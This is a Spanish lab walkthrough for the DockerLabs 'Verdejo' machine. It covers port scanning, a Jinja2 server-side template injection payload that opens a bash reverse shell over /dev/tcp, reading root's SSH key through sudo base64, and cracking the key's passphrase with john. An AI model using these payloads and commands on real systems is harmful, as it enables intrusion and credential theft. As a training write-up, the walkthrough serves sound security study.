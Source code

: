 ```yaml
---
title: Verdejo - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | The Hackers Labs        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/52adb1eb-cff8-4d4e-a4a8-de78bddd1615)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)
- `8089` (Que servicio es)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p22,80,8089 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/e6b57a30-2b81-4d4f-b542-464e63077507)

# Exploración Web
Al acceder al puerto `80`, encontramos una página de defecto de apache si nada mas aparente.

tilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/70c4ecce-ca0a-4d06-ad25-df06f798536e)

No encontramos nada aparentemente.

Accedemos al puerto `8089` 
![image](https://github.com/user-attachments/assets/bdf26108-2443-4cf4-a84f-ecfaeb317c61)

Vemos que hay un panel en el cual si escribimos algo lo llega a intrepetrar, por lo que podria ser un `SSTI`(Explica muy brevemente que es)

![image](https://github.com/user-attachments/assets/d8d32cff-03e2-4689-b6e0-b7fe78a84038)

Probando con la ayuda de este recurso [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) , estamos detras un un Jinja2.

![image](https://github.com/user-attachments/assets/e20d1cce-a914-4853-aa3b-0619ce37793a)
```url
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

# ReverseShell

Vamos a generar una shell con el siguiente comando:
```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1\'').read() }}
```
Simultaneamnete ejecutamos `netcat`.
```bash
nc -lvnp 4444 
```
# Intrusion

Ya estamos dentro con el usuario verde.

![image](https://github.com/user-attachments/assets/0ff21c80-8adb-4e33-9a2a-1745f392917e)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

# Escalada de privilegios
Al ejecutar `sudo -l`, notamos que tiene permisos para ejecutar `base64` como `root`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/63317767-ddae-4a03-b9ea-cde31b348add)

Con base64 podemos leer archivos como root, entonces recordando que tenemos el puerto 22 abierto podemos ver el id_rsa de root.
```bash
LFILE=/root/.ssh/id_rsa 
sudo -u root /usr/bin/base64 "$LFILE" | base64 --decode
```
![image](https://github.com/user-attachments/assets/8c502e29-b772-4250-8916-03aa633b3b70)

Lo pasasmos a nuestro equipo y accedemo por ssh, pero por pide una contraseña.

![image](https://github.com/user-attachments/assets/8ce2c627-762f-4ba1-935b-7297e15df618)

## Fuerza Bruta

Vamos a hacer fuerza bruta a ver si esta la contraseña, para ello haremos lo siguiente:

Sacamos el hash de la id_rsa
```bash
ssh2john id_rsa > hash
```

Pasamos a crackearlo para intentar sacar la passphrase
```bash
sudo john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
Tenemos una contraseña `honda1`.

![image](https://github.com/user-attachments/assets/98107efa-16bb-4552-b479-0427fe3c7b86)

Volvemos a acceder con root a traves de ssh.

![image](https://github.com/user-attachments/assets/cc2c4a79-c58e-45eb-95dc-6793cf3836f9)

Ya somos root.




